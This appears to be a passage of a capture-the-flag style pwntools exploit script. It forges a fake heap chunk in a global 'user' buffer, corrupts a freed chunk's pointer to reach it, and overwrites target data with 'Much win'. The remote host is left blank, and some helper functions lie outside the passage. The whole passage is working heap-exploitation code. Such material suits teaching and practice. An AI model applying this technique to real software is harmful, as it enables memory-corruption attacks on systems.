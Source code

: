 ```python=
    io.sendafter(b'index: ', str(index).encode())
    io.recvuntil(b'> ')

def edit(index, data):
    io.send(b'3')
    io.sendafter(b'index: ', str(index).encode())
    io.sendafter(b'data: ', data)
    io.recvuntil(b'> ')

def target():
    io.send(b'4')
    io.recvuntil(b'> ')

def quit():
    io.send(b'5')
    
def start():
    if args.GDB:
        return gdb.debug(elf.path, env={"LD_PRELOAD": libc.path},gdbscript=gs)
    elif args.REMOTE:
        return remote('', )
    else:
        return process(elf.path, env={"LD_LIBRARY_PATH": libc.path})

io = start()
puts, heap = handle()
#smallbin doesn't check valid chunk size


# target bk nextsize
name = p64(0) + p64(0x501) + p64(elf.sym['user']) + p64(elf.sym['user'])
send_name(name)

chunk_A = malloc(0x3f8)
malloc(0x88)

free(chunk_A)

malloc(0x408)

edit(chunk_A, p64(0)*3 + p64(elf.sym['user']))

fake_chunk = malloc(0x3f8)

edit(fake_chunk, p64(0)*4 + b'Much win\x00')
target()
quit()

io.interactive()
```

---
